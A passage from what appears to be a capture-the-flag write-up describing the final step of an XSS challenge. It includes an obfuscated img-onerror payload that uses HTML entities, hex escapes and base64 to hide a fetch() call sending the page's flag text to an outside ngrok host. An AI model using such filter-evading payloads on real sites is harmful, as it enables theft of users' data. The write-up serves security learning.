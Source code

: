 > ![Cyberchef Encoding->HTML Entity](/images/LaCTF-2025/Purell/cyberchef2.png "Cyberchef Encoding->HTML Entity")
> 
> As we can see, they are replaced with `&lpar;&rpar;`. By replacing them in the previous payload and sending it, I obtained the injection:
> 
> ```html
> <img/src="x"/oonnerror="eval&lpar;atob&lpar;'\x5a\x6d\x56\x30\x59\x32\x67\x6f\x4a\x32\x68\x30\x64\x48\x42\x7a\x4f\x69\x38\x76\x59\x7a\x42\x69\x4e\x43\x30\x79\x4c\x54\x4d\x33\x4c\x54\x45\x32\x4e\x79\x30\x78\x4d\x44\x67\x75\x62\x6d\x64\x79\x62\x32\x73\x74\x5a\x6e\x4a\x6c\x5a\x53\x35\x68\x63\x48\x41\x2f\x5a\x6d\x78\x68\x5a\x7a\x30\x6e\x49\x43\x73\x67\x5a\x47\x39\x6a\x64\x57\x31\x6c\x62\x6e\x51\x75\x63\x58\x56\x6c\x63\x6e\x6c\x54\x5a\x57\x78\x6c\x59\x33\x52\x76\x63\x69\x67\x6e\x4c\x6d\x5a\x73\x59\x57\x63\x6e\x4b\x53\x35\x70\x62\x6d\x35\x6c\x63\x6c\x52\x6c\x65\x48\x51\x70'&rpar;&rpar;">
> ```
> 
> (For these last levels, I have to thank the authors of the challenge for removing the control on the maximum `150` characters, otherwise I think it would have been impossible.) I retrieved the token (`purell-token{y0u_4r3_th3_0n3_wh0_c4ll5}`) and sending it, I obtained the final part of the flag (`_1nf3c71ng_3v34y_1}`). Now all that's left is to put it together completely and we're done!
>
### Flag capture
>  
>   ![Manual Flag](/images/LaCTF-2025/Purell/manual_flag.png "Manual Flag")
